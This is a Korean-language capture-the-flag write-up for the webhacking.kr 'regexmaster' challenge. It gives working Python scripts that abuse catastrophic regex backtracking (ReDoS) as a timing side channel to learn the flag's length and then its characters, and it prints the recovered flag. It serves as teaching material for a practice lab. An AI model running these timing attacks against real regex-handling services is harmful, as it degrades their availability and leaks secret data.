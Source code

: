 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-14-51.png)


# **Write-Up**

preg_match밖에 없어서 난감하지만, catastrophic backtracking을 이용하여 시간이 오래걸리는 문자는 패턴이 매칭되어서 FLAG로 처리하면 될 듯하다.

먼저 FLAG의 길이를 구하자.

> [ReDoS](https://speakerdeck.com/lmt_swallow/revisiting-redos-a-rough-idea-of-data-exfiltration-by-redos-and-side-channel-techniques)

> [regex101](https://regex101.com/)

```python
import requests
import time
import string

CHALLENGE   = 'http://regexmaster.webhacking.kr/'
SESSID      = '3rphaqro19ronfcjse1h047isp'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(1, 50):
    pattern = '(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*).{'+str(i)+'}$'
    url         = CHALLENGE + '?pattern=' + pattern
    s_time      = time.time()
    req         = requests.get(url=url, headers=headers)
    delay       = time.time() - s_time
    if delay < 1:
        print('flag length = {}'.format(i - 1))
        break

[Output]
flag length = 30
```

FLAG를 구하자.

```python
import requests
import time
import string

CHALLENGE   = 'http://regexmaster.webhacking.kr/'
SESSID      = '3rphaqro19ronfcjse1h047isp'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag_total_len   = 30
flag = 'FLAG{'
while len(flag) < 29:
    old_len = len(flag)
    for c in "_" + string.ascii_letters + string.digits:
        pattern     = flag + c + '.*(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*).{'+str(flag_total_len - len(flag) - 1)+'}$'
        url         = CHALLENGE + '?pattern=' + pattern
        s_time      = time.time()
        req         = requests.get(url=url, headers=headers)
        delay       = time.time() - s_time
        if delay > 0.3:
            flag += c
            print('find = {}'.format(flag))
    if old_len == len(flag) :
        flag += '.'
        print('unknown : {}'.format(flag))
print('flag = {}'.format(flag+'}'))

[Output]
... 생략 ...
flag = FLAG{im_r.e.g.e.x_master.._..}
```

결과 값을 인증하여도 Invalid라고 나온다. "."이 나오는 곳은 특수문자일 듯 하다.

^, ? 등 시도해보았지만, 결과적으로는 "."을 "/"로 치환하면 점수를 획득할 수 있다.


# **FLAG**

**FLAG{im_r/e/g/e/x_master//_//}**